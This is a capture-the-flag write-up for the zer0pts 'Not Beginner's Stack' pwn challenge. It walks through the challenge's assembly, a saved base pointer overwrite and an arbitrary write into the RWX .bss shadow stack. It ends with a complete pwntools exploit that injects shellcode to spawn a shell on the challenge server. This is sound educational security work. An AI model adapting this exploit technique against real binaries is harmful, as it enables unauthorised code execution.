


# Not Beginner's Stack

**Category**: Pwn \
**Points**: 81 (162 solves) \
**Author**: ptr-yudai

## Challenge

Elementary pwners love to overwrite the return address. This time you can't! \
`nc pwn.ctf.zer0pts.com 9011`

Attachments: `not_beginners_stack.tar.gz`

## Solution

Here's the source code:
```asm
global _start
section .text

%macro call 1
;; __stack_shadow[__stack_depth++] = return_address;
  mov ecx, [__stack_depth]
  mov qword [__stack_shadow + rcx * 8], %%return_address
  inc dword [__stack_depth]
;; goto function
  jmp %1
  %%return_address:
%endmacro

%macro ret 0
;; goto __stack_shadow[--__stack_depth];
  dec dword [__stack_depth]
  mov ecx, [__stack_depth]
  jmp qword [__stack_shadow + rcx * 8]
%endmacro

_start:
  call notvuln
  call exit

notvuln:
;; char buf[0x100];
  enter 0x100, 0
;; vuln();
  call vuln
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x100);
  mov edx, 0x100
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return 0;
  xor eax, eax
  ret

vuln:
;; char buf[0x100];
  enter 0x100, 0
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x1000);
  mov edx, 0x1000               ; [!] vulnerability
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return;
  leave
  ret

read:
  xor eax, eax
  syscall
  ret

write:
  xor eax, eax
  inc eax
  syscall
  ret

exit:
  mov eax, 60
  syscall
  hlt

section .data
msg_data:
  db "Data: "
__stack_depth:
  dd 0

section .bss
__stack_shadow:
  resb 1024
```

Looks like there's some crazy stuff going on when calling functions. Lets read
the included `FOR_BEGINNERS.md` document.

```markdown
## 3. Design of This Challenge
In this challenge, the program defines own `call`/`ret` instructions.
...

It doesn't save the return address on the stack but saves it into an array at the bss section.
Since we don't have the return address on the stack, the attacker can't abuse stack overflow to overwrite the return address :)

## 4. Hint
So, you can't simply overwrite the return address.
As mentioned in Chapter 2, the attacker can overwrite not only the return address but also the saved base pointer.
What can an attacker do by overwriting the base pointer?

Also, don't forget to check the security mechanism of the program (i.e. SSP, DEP and PIE).
```

Wow, this is definitely a unique challenge. Let's try `checksec`:
```
$ checksec chall
[*] '/home/plushie/Programs/zer0pts/not_beginners_stack/chall'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Cool, so there are 0 mitigations in place.

First let's make some pseudocode:
```c
void start() {
    notvuln()
    exit()
}

int notvuln() {
    char buf[0x100];
    vuln();
    write(1, "Data: ", 6);
    read(0, buf, 0x100);
    return 0;
}

int vuln() {
    char buf[0x100];
    write(1, "Data: ", 6);
    read(0, buf, 0x1000); // [!] vulnerability
    return;
}
```

Let's follow the author's advice and try overwriting `rbp` in `vuln()`.

```python
import pwn

io = pwn.process("./chall")

if pwn.args.GDB:
    # breakpoints:
    # 0x4001d4: vuln.leave
    # 0x400138: after notvuln.write
    # 0x400165: after notvuln.read
    pwn.gdb.attach(
        io,
        gdbscript="""
break *0x4001d4
break *0x400138
break *0x400165
continue
    """,
    )

# Sets $rbp to 0xdeadbeef
payload = b"A" * 0x100 + pwn.p64(0xDEADBEEF)
io.sendlineafter("Data: ", payload)
io.interactive()
```

Let's run this and see what happens. At the first breakpoint, we can see that
`$rbp` is indeed set to `0xdeadbeef`. At the second breakpoint, we are about to
call `read(0, buf, 0x100)`:


Notice anything weird? `$rbp = 0xdeadbeef`, so we're about to call `read(0, 0xdeadbeef - 0x100, 0x100)`

Since we have complete control over `$rbp`, we can write 0x100 (256) bytes of
data anywhere we want. What's the best place to do that? Let's check the memory
mappings:



The `.bss` section is always at `0x600000` and is readable, writable, and
executable! That means we can write shellcode into it and later execute it. Now
the final piece is to hijack control flow to jump into our shellcode.

Conveniently enough, the return addresses are also stored in the `.bss` section.
We can get the address of the return address stack like so
```python
pwn.context.binary = elf = pwn.ELF("chall")
stack_shadow = elf.symbols["__stack_shadow"]  # 0x600234
```

So all we have to do is overwrite a return address there and set it to the
address of our shellcode. After some fiddling around with cyclic strings to
calculate offsets, the final exploit looks like this:
```python
import pwn

if pwn.args.LOCAL:
    io = pwn.process("./chall")
else:
    io = pwn.remote("pwn.ctf.zer0pts.com", 9011)

if pwn.args.GDB:
    # breakpoints:
    # 0x4001d4: vuln.leave
    # 0x400138: after notvuln.write
    # 0x400165: after notvuln.read
    pwn.gdb.attach(
        io,
        gdbscript="""
break *0x4001d4
break *0x400138
break *0x400165
continue
    """,
    )

pwn.context.binary = elf = pwn.ELF("chall")
stack_shadow = elf.symbols["__stack_shadow"]
print(hex(stack_shadow))

"""
Exploit:
- Overwrite $rbp to set address for an arbitrary write
  - The address we'll use is `__stack_shadow`
- Overwrite return address in `__stack_shadow` to control $rip
- Jump into shellcode also stored on .bss, which is RWX
"""

# Part 1: Overwrite $rbp with to later write into `__stack_shadow` address

# RBP  0x636161706361616f ('oaacpaac')
offset = pwn.cyclic_find("oaac")
print(offset)

# lea rsi, [rbp-0x100]
# rbp - 0x100 = stack_shadow
# rbp = stack_shadow + 0x100

payload = b"A" * offset + pwn.p64(stack_shadow + 0x100)
io.sendlineafter("Data: ", payload)

# Part 2: Overwrite return address in `__stack_shadow` to jump into our
# shellcode

pwn.context.arch = "amd64"
binsh = pwn.asm(pwn.shellcraft.sh())
binsh_addr = pwn.p64(0x600244)

payload = b"B" * pwn.cyclic_find(0x61616163)
payload += binsh_addr + binsh
io.sendlineafter("Data: ", payload)
io.interactive()
```
